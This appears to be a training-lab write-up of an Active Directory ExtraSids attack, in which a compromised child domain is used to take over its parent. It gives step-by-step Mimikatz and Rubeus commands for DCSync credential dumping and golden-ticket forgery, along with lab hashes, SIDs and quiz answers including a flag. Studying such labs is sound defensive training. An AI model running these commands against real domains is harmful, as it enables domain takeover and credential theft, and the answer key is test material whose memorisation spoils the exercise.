<div align='center'>

# **Lab 22: Attacking Domain Trusts - Child -> Parent Trusts - from Windows** 

</div>

Note: the attacker is on the LOGISTICS domain controller, which is a child domain of the INLANEFREIGHT domain. The attacker has already compromised the LOGISTICS domain controller

## **ExtraSids Attack - Mimikatz**

This attack allows for the compromise of a parent domain once the child domain has been compromised.

To perform this attack after compromising a child domain, we need the following:
- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.

**Obtaining the KRBTGT Account's NT Hash using Mimikatz**

```powershell
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```



We can see the NT hash for the KRBTGT account in the child domain and the SID of the child domain.

**Obtaining Enterprise Admins Group's SID using Get-DomainGroup**

```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```



We have gathered the following data points:

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: L`OGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

**Question**: What is the SID of the child domain?
- **Answer:** S-1-5-21-2806153819-209893948-922872689

**Question**: What is the SID of the Enterprise Admins group in the root domain?
- **Answer:** S-1-5-21-3842939050-3880317879-2865463114-519



**Confirm no access to the file system of the DC in the parent domain.**



**Creating a Golden Ticket with Mimikatz**

```powershell
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```





The attack was successful



## **ExtraSids Attack - Rubeus**

**Confirm no access to the file system of the DC in the parent domain.**


**Question**: Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain

```powershell
cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```



- **Answer:** f@ll1ng_l1k3_d0m1no3$



**Creating a Golden Ticket using Rubeus**

```powershell
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```







**Performing a DCSync attack against the parent domain, targeting the lab_adm Domain Admin user**

```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```



We successfully dumped the hash for the Domain Admin user in the parent domain.